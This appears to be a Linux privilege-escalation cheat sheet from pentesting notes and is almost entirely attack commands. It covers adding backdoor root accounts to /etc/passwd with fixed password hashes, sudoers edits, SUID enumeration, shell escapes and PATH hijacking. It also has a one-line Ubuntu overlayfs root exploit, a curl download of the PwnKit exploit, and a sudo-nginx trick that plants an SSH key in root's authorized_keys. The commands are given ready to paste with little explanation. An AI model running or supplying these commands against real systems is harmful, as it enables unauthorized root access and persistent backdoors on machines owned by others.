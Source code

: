 Add root2 to /etc/passwd:
```bash
echo "root2:$(openssl passwd toor):0:0:root:/root:/bin/bash" >> /etc/passwd
```

Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---

List if use can execute a cmd as root

```shell
sudo -l
```

```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

if you can alter /etc/passwd just remove the first x for the root user and then you can su root without a password

Shell SUDO / escape:
---
---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Abuse non-absolute path in scripts/bins run as root:

```bash
#create the script and rename to match the file you wish to impersonate
echo "#\!/bin/bash\nbash" > /dev/shm/malicious_bin
chmod +x /dev/shm/malicious_bin
#make sure it searches /dev/shm first for the file
export PATH=/dev/shm:$PATH
```

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```bash
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

PwnKit (by the author of 'certipy'):
```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```
Abuse NGINX sudo for privesc:
----
create the following /tmp/pwn.conf on box:
```conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1337;
                root /;
                autoindex on;
                dav_methods PUT;
     }
}
```
```bash
sudo nginx -c /tmp/pwn.conf
ss -tunlp
#make sure port 1337 is opened
ssh-keygen
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```


